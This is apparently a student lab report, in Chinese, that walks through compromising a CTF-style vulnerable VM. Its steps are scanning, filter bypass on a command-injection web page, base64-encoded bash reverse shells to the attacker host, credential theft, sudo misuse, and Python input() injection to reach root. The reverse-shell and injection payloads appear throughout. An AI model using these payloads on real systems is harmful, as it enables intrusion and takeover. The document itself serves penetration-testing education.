





Lab8
Network Atk&Def lab7 241840273 杨良灼
查询攻击机 ip
└─$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
inet 10.0.2.4 netmask 255.255.255.0 broadcast 10.0.2.255
inet6 fe80::9d17:dec1:4341:a804 prefixlen 64 scopeid 0x20<link>
ether 08:00:27:3c:97:80 txqueuelen 1000 (Ethernet)
RX packets 1 bytes 590 (590.0 B)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 25 bytes 3214 (3.1 KiB)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
lo: flags=73<UP,LOOPBACK,RUNNING> mtu 65536
inet 127.0.0.1 netmask 255.0.0.0
inet6 ::1 prefixlen 128 scopeid 0x10<host>
loop txqueuelen 1000 (Local Loopback)
RX packets 8 bytes 480 (480.0 B)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 8 bytes 480 (480.0 B)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
主机发现
└─$ sudo arp-scan -l
Interface: eth0, type: EN10MB, MAC: 08:00:27:3c:97:80, IPv4: 10.0.2.4
WARNING: Cannot open MAC/Vendor file ieee-oui.txt: Permission denied
WARNING: Cannot open MAC/Vendor file mac-vendor.txt: Permission denied
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
10.0.2.1 52:54:00:12:35:00 (Unknown: locally administered)
10.0.2.2 52:54:00:12:35:00 (Unknown: locally administered)
10.0.2.3 08:00:27:3d:19:c5 (Unknown)
10.0.2.10 08:00:27:12:0c:64 (Unknown)
4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 1.919 seconds (133.40 hosts/sec). 4 responded
端口扫描
└─$ sudo nmap -p- 10.0.2.10
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-30 00:07 EST
Nmap scan report for 10.0.2.10
Host is up (0.00013s latency).
Not shown: 65531 closed tcp ports (reset)
PORT STATE SERVICE
21/tcp open ftp
22/tcp filtered ssh
1337/tcp open waste
7331/tcp open swx
MAC Address: 08:00:27:12:0C:64 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap done: 1 IP address (1 host up) scanned in 2.50 seconds
尝试用浏览器访问各端口，只有 7331 端口有个界面

使用 dirsearch 或 dirb 扫描什么都没扫出来，我们使用一个更大的字典去扫描：
└─$ cd /usr/share/wordlists
└─$ ls
└─$ sudo apt install seclists
我们安装 seclists，并使用其中的字典去扫描：
└─$ dirsearch -u http://10.0.2.10:7331 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
from pkg_resources import DistributionNotFound, VersionConflict
_|. _ _ _ _ _ _|_ v0.4.3
(_||| _) (/_(_|| (_| )
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 220545
Output File: /home/kali/reports/http_10.0.2.10_7331/_25-11-30_00-37-41.txt
Target: http://10.0.2.10:7331/
[00:37:41] Starting:
[00:38:29] 200 - 385B - /wish
[00:39:45] 200 - 2KB - /genie
Task Completed
搜到了两个目录，浏览器尝试打开 http://10.0.2.10:7331/wish 和 http://10.0.2.10:7331/genie.


根据 wish 页面的提示，我们输入随便什么指令，发现都会跳转到 genie 页面，但是导航栏给出的信息不同：
> whoami
< http://10.0.2.10:7331/genie?name=www-data%0A
> pwd
< http://10.0.2.10:7331/genie?name=%2Fopt%2F80%0A
> id
< http://10.0.2.10:7331/genie?name=uid%3D33%28www-data%29+gid%3D33%28www-data%29+groups%3D33%28www-data%29%0A
> whereis bash
< http://10.0.2.10:7331/genie?name=bash%3A+%2Fbin%2Fbash+%2Fetc%2Fbash.bashrc+%2Fusr%2Fshare%2Fman%2Fman1%2Fbash.1.gz%0A
> cat /etc/passwd
< http://10.0.2.10:7331/genie?name=Wrong+choice+of+words
我们还可以输入一些其他命令，我们发现大多命令都会返回一些东西，但是有些命令则返回 Wrong choice of words. 如果我们直接尝试使用反弹 shell，也会返回这个，这表明命令很可能存在黑名单过滤机制，并且阻止我们利用反弹 shell 套取权限。
我们采用可逆的 base64 加密绕过明文过滤，之后再解码执行：先监听比如 3343 端口：
└─$ nc -nlvp 3343
listening on [any] 3343 ...
将反弹 shell 命令加密（这个可以使用 burp suite 的 decoder 界面完成）：
> bash -i >& /dev/tcp/10.0.2.4/3343 0>&1
< YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjIuNC8zMzQzIDA+JjE=
利用管道符搞出这个指令：
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjIuNC8zMzQzIDA+JjE= | base64 -d | bash
反弹 shell 成功：

看下有什么：
www-data@box7:/opt/80$ ls -l
ls -l
total 16
-rw-r--r-- 1 www-data www-data 1323 Nov 13 2019 app.py
-rw-r--r-- 1 www-data www-data 1846 Nov 14 2019 app.pyc
drwxr-xr-x 5 www-data www-data 4096 Nov 13 2019 static
drwxr-xr-x 2 www-data www-data 4096 Nov 14 2019 templates
然后我们 cat app.py 看一看
import subprocess
from flask import Flask, redirect, render_template, request, url_for
app = Flask(__name__)
app.secret_key = "key"
CREDS = "/home/nitish/.dev/creds.txt"
RCE = ["/", ".", "?", "*", "^", "$", "eval", ";"]
def validate(cmd):
if CREDS in cmd and "cat" not in cmd:
return True
try:
for i in RCE:
for j in cmd:
if i == j:
return False
return True
except Exception:
return False
@app.route("/", methods=["GET"])
def index():
return render_template("main.html")
@app.route("/wish", methods=['POST', "GET"])
def wish():
execute = request.form.get("cmd")
if execute:
if validate(execute):
output = subprocess.Popen(execute, shell=True,
stdout=subprocess.PIPE).stdout.read()
else:
output = "Wrong choice of words"
return redirect(url_for("genie", name=output))
else:
return render_template('wish.html')
@app.route('/genie', methods=['GET', 'POST'])
def genie():
if 'name' in request.args:
page = request.args.get('name')
else:
page = "It's not that hard"
return render_template('genie.html', file=page)
if __name__ == "__main__":
app.run(host='0.0.0.0', debug=True)
我们看到这段代码中有 CREDS 信息，是个目录，有个 RCE 列表和 validate() 函数，还有个 wish() 函数，其中有 Wrong choice of words，表明这就是 wish 页面的后端代码。
我们看看 CREDS 目录中的内容：
www-data@box7:/opt/80$ cat /home/nitish/.dev/creds.txt
cat /home/nitish/.dev/creds.txt
nitish:p4ssw0rdStr3r0n9
得到了 nitish 的密码，尝试切换，但它告诉我们：
www-data@box7:/opt/80$ su nitish
su nitish
su: must be run from a terminal
所以我们需要更好的 shell 体验：即执行 python -c 'import pty;pty.spawn("/bin/bash")'
└─$ nc -nvlp 3343
listening on [any] 3343 ...
connect to [10.0.2.4] from (UNKNOWN) [10.0.2.10] 44830
bash: cannot set terminal process group (664): Inappropriate ioctl for device
bash: no job control in this shell
www-data@box7:/opt/80$ python -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@box7:/opt/80$ su nitish
su nitish
Password: p4ssw0rdStr3r0n9
nitish@box7:/opt/80$
现在我们就成功切换到 nitish 用户了，接下来看看权限：
nitish@box7:/opt/80$ sudo -l
sudo -l
Matching Defaults entries for nitish on box7:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User nitish may run the following commands on box7:
(sam) NOPASSWD: /usr/bin/genie
发现可以无条件以 sam 用户执行 /usr/bin/genie：
nitish@box7:/opt/80$ sudo -u sam /usr/bin/genie
sudo -u sam /usr/bin/genie
usage: genie [-h] [-g] [-p SHELL] [-e EXEC] wish
genie: error: the following arguments are required: wish
得到了一些参数信息，man 一下看看指令手册：
nitish@box7:/opt/80$ man /usr/bin/genie | cat
man /usr/bin/genie | cat
man(8) genie man page man(8)
NAME
genie - Make a wish
SYNOPSIS
genie [-h] [-g] [-p SHELL] [-e EXEC] wish
DESCRIPTION
genie would complete all your wishes, even the naughty ones.
We all dream of getting those crazy privelege escalations, this will
even help you acheive that.
OPTIONS
wish
This is the wish you want to make .
-g, --god
Sometime we all would like to make a wish to god, this option
let you make wish directly to God;
Though genie can't gurantee you that your wish will be heard by
God, he's a busy man you know;
-p, --shell
Well who doesn't love those. You can get shell. Ex: -p "/bin/sh"
-e, --exec
Execute command on someone else computer is just too damn fun,
but this comes with some restrictions.
-cmd
You know sometime all you new is a damn CMD, windows I love you.
SEE ALSO
mzfr.github.io
BUGS
There are shit loads of bug in this program, it's all about finding
one.
AUTHOR
mzfr
1.0 11 November 2019 man(8)
写得有点抽象，不过我们得到了 -cmd 这个重要参数
nitish@box7:/opt/80$ sudo -u sam /usr/bin/genie -cmd
sudo -u sam /usr/bin/genie -cmd
usage: genie [-h] [-g] [-p SHELL] [-e EXEC] wish
genie: error: the following arguments are required: wish
nitish@box7:/opt/80$ sudo -u sam /usr/bin/genie -cmd wish
sudo -u sam /usr/bin/genie -cmd wish
Pass your wish to GOD, he might be able to help you.
nitish@box7:/opt/80$ sudo -u sam /usr/bin/genie -cmd whoami
sudo -u sam /usr/bin/genie -cmd whoami
my man!!
$ whoami
whoami
sam
于是成功获得了 sam 用户身份及其权限。继续查看其权限：
$ sudo -l
sudo -l
Matching Defaults entries for sam on box7:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User sam may run the following commands on box7:
(root) NOPASSWD: /root/lago
发现其可以无条件以 root 用户执行 /root/lago，执行之：
$ sudo /root/lago
sudo /root/lago
What do you want to do ?
1 - Be naughty
2 - Guess the number
3 - Read some damn files
4 - Work
Enter your choice:
四个选项都可以尝试一下，结果是都在逗你玩。
我们继续探索 sam 用户相关的东西：
$ cd ~
cd ~
$ cd /home/sam
cd /home/sam
$ ls -la
ls -la
total 36
drwxr-x--- 4 sam sam 4096 Nov 14 2019 .
drwxr-xr-x 4 root root 4096 Nov 14 2019 ..
-rw------- 1 root root 417 Nov 14 2019 .bash_history
-rw-r--r-- 1 root root 220 Oct 20 2019 .bash_logout
-rw-r--r-- 1 sam sam 3771 Oct 20 2019 .bashrc
drwx------ 2 sam sam 4096 Nov 11 2019 .cache
drwx------ 3 sam sam 4096 Oct 20 2019 .gnupg
-rw-r--r-- 1 sam sam 807 Oct 20 2019 .profile
-rw-r--r-- 1 sam sam 1749 Nov 7 2019 .pyc
-rw-r--r-- 1 sam sam 0 Nov 7 2019 .sudo_as_admin_successful
发现用户目录下有一个 .pyc 文件，启动一个新终端监听：
└─$ nc -nvlp 4444 > 1.pyc
listening on [any] 4444 ...
connect to [10.0.2.4] from (UNKNOWN) [10.0.2.10] 58560
在旧终端中传输：
$ nc -w 4 10.0.2.4 4444 <.pyc
nc -w 4 10.0.2.4 4444 <.pyc
然后我们在新终端中反编译这个 .pyc 文件
└─$ ./pycdc /home/kali/Downloads/1.pyc
# Source Generated with Decompyle++
# File: 1.pyc (Python 2.7)
from getpass import getuser
from os import system
from random import randint
def naughtyboi():
print 'Working on it!! '
def guessit():
num = randint(1, 101)
print 'Choose a number between 1 to 100: '
s = input('Enter your number: ')
if s == num:
system('/bin/sh')
else:
print 'Better Luck next time'
def readfiles():
user = getuser()
path = input('Enter the full of the file to read: ')
print 'User %s is not allowed to read %s' % (user, path)
def options():
print 'What do you want to do ?'
print '1 - Be naughty'
print '2 - Guess the number'
print '3 - Read some damn files'
print '4 - Work'
choice = int(input('Enter your choice: '))
return choice
def main(op):
if op == 1:
naughtyboi()
elif op == 2:
guessit()
elif op == 3:
readfiles()
elif op == 4:
print 'work your ass off!!'
else:
print 'Do something better with your life'
if __name__ == '__main__':
main(options())
我们发现选项 2 对应的 guessit() 函数中使用了 input() 函数，其存在注入漏洞：
def guessit():
num = randint(1, 101)
print 'Choose a number between 1 to 100: '
s = input('Enter your number: ')
if s == num:
system('/bin/sh')
else:
print 'Better Luck next time'
我们只需输入 num，这条赋值语句就会变为 s=num，那么接下来 s == num 自然成立：
$ sudo /root/lago
sudo /root/lago
What do you want to do ?
1 - Be naughty
2 - Guess the number
3 - Read some damn files
4 - Work
Enter your choice:2
2
Choose a number between 1 to 100:
Enter your number: num
num
# whoami
whoami
root
#
成功获取 root 权限，接下来改密码：

附加题
我们现在已获得了 root 权限，接下来继续探索。
一、1337 端口用 telnet 访问服务存在漏洞，试寻找之
└─$ telnet 10.0.2.10 1337
Trying 10.0.2.10...
Connected to 10.0.2.10.
Escape character is '^]'.
____ _____ _
/ ___| __ _ _ __ ___ ___ |_ _(_)_ __ ___ ___
| | _ / _` | '_ ` _ \ / _ \ | | | | '_ ` _ \ / _ \
| |_| | (_| | | | | | | __/ | | | | | | | | | __/
\____|\__,_|_| |_| |_|\___| |_| |_|_| |_| |_|\___|
Let's see how good you are with simple maths
Answer my questions 1000 times and I'll give you your gift.
(4, '-', 6)
>
我们利用 root 权限查询管理其服务：
# netstat -anp | grep 1337
netstat -anp | grep 1337
tcp 0 0 0.0.0.0:1337 0.0.0.0:* LISTEN 750/xinetd
发现其使用 xinetd 这一服务，继续查询之：
# cd /etc/xinetd.d
cd /etc/xinetd.d
# ls
ls
chargen daytime discard echo game services time-udp
chargen-udp daytime-udp discard-udp echo-udp servers time
# cat game
cat game
service game
{
disable = no
socket_type = stream
protocol = tcp
wait = no
user = root
type = UNLISTED
bind = 0.0.0.0
port = 1337
server = /opt/1337/run_challenge.sh
}
从列表中得到 server 的目录，查看之：
cat /opt/1337/run_challenge.sh
#! /bin/bash
python -u /opt/1337/app.py
#
得到一个 python 文件的目录，查看之：
# cat python -u /opt/1337/app.py
cat python -u /opt/1337/app.py
cat: python: No such file or directory
#!/usr/bin/env python3
import sys
from random import choice, randint
from pyfiglet import print_figlet
def add(a,b): return a+b
def div(a,b): return int(a/b)
def multiply(a,b): return a*b
def sub(a,b): return a-b
print_figlet("Game Time")
print("Let's see how good you are with simple maths")
print("Answer my questions 1000 times and I'll give you your gift.")
OPERATIONS = ['+', '-', "/", "*"]
def main():
for i in range(1001):
a = randint(1,9)
b = randint(1,9)
op = choice(OPERATIONS)
print(a,op,b)
if op == "+":
val = add(a,b)
if op == "-":
val = sub(a,b)
if op == "/":
val = div(a,b)
if op == "*":
val = multiply(a,b)
try:
In = int(input("> "))
except Exception:
print("Stop acting like a hacker for a damn minute!!")
sys.exit(1)
if In == val:
continue
else:
print("Wrong answer")
sys.exit(1)
with open("/opt/1337/p0rt5", 'r') as f:
print(f.read())
if __name__ == "__main__":
main()
#
这里仍然存在 input() 的注入漏洞，不过既然我们知道源代码了，可以直接查看代码中作为结果打开的文件：
# cat /opt/1337/p0rt5
cat /opt/1337/p0rt5
Here is your gift, I hope you know what to do with it:
1356, 6784, 3409
得到了三个数字。
这三个数字有很多方法得到：
- 正规方法，真的回答一千次，或使用脚本回答，得到。
- 注入之，输入一千次或使用脚本输入一千次
val得到。 - 查看源代码直接打开目录得到。
二、三个数字的用处
这三个数字其实是用于打开 filtered 的 22 号端口：
└─$ sudo nmap -p- 10.0.2.10
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-30 02:32 EST
Nmap scan report for 10.0.2.10
Host is up (0.00015s latency).
Not shown: 65531 closed tcp ports (reset)
PORT STATE SERVICE
21/tcp open ftp
22/tcp filtered ssh
1337/tcp open waste
7331/tcp open swx
MAC Address: 08:00:27:12:0C:64 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap done: 1 IP address (1 host up) scanned in 2.25 second
使用如下命令，对端口进行敲门：
┌──(kali㉿kali)-[~]
└─$ knock 10.0.2.10 1356 6784 3409
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p- 10.0.2.10
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-30 02:34 EST
Nmap scan report for 10.0.2.10
Host is up (0.00044s latency).
Not shown: 65531 closed tcp ports (reset)
PORT STATE SERVICE
21/tcp open ftp
22/tcp open ssh
1337/tcp open waste
7331/tcp open swx
MAC Address: 08:00:27:12:0C:64 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap done: 1 IP address (1 host up) scanned in 2.60 seconds
也就是打开了 22 号端口，从而我们可以使用 ssh 服务了。
这点最直接的用处是可以直接远程登陆 nitish 用户，而不必再使用反弹 shell：
└─$ ssh nitish@10.0.2.10
The authenticity of host '10.0.2.10 (10.0.2.10)' can't be established.
ED25519 key fingerprint is SHA256:hDngTQnjVXoBeWuPEH3si0MbCre9a/g2G4N6/pRZLFk.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.0.2.10' (ED25519) to the list of known hosts.
nitish@10.0.2.10's password:
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-66-generic x86_64)
* Documentation: https://help.ubuntu.com
* Management: https://landscape.canonical.com
* Support: https://ubuntu.com/advantage
System information as of Sun Nov 30 13:05:28 IST 2025
System load: 0.0 Processes: 118
Usage of /: 37.6% of 9.78GB Users logged in: 1
Memory usage: 21% IP address for eth0: 10.0.2.10
Swap usage: 0%
* Canonical Livepatch is available for installation.
- Reduce system reboots and improve kernel security. Activate at:
https://ubuntu.com/livepatch
329 packages can be updated.
266 updates are security updates.
New release '20.04.6 LTS' available.
Run 'do-release-upgrade' to upgrade to it.
Last login: Thu Nov 14 20:32:20 2019 from 192.168.1.107
nitish@box7:~$
三、对第一个问题的另一个回答
我们之前提到第一个问题的漏洞在于注入漏洞，可以直接输入一千遍 val 得到神秘的三个数字，但是这个注入漏洞还可以起到别的作用。
注意 game 服务的执行者是 root，我们于是就可以直接通过注入漏洞 + 反弹 shell 窃取其权限：
└─$ telnet 10.0.2.10 1337
Trying 10.0.2.10...
Connected to 10.0.2.10.
Escape character is '^]'.
____ _____ _
/ ___| __ _ _ __ ___ ___ |_ _(_)_ __ ___ ___
| | _ / _` | '_ ` _ \ / _ \ | | | | '_ ` _ \ / _ \
| |_| | (_| | | | | | | __/ | | | | | | | | | __/
\____|\__,_|_| |_| |_|\___| |_| |_|_| |_| |_|\___|
Let's see how good you are with simple maths
Answer my questions 1000 times and I'll give you your gift.
(1, '*', 2)
> __import__('os').system('bash -c "bash -i >& /dev/tcp/10.0.2.4/3343 0>&1"')
窃取 root 权限成功！